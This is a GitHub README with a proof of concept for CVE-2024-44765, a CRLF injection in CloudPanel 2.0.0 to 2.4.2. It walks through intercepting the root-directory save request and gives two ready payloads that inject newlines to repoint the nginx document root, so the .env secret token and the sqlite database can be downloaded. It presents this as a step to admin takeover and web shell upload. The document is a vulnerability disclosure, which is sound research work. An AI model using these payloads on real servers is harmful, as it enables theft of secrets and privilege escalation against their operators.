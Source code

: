 # Proof of Concept (PoC) for Cloudpanel [CRLF Injection / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:

2. **Step 2**: Click manage and check Root Directory input:

3. **Step 3**: Click save and intercept the request via burp suite:

4. **Step 4**: Leaking sensitive data.

    4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=yourdomain.my%0a%0droot%0a/home/clp/htdocs/app/files
        ```
    4.2 **Step 5**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=yourdomain.my%0a%0droot%0a/home/clp/htdocs/app/data
        ```
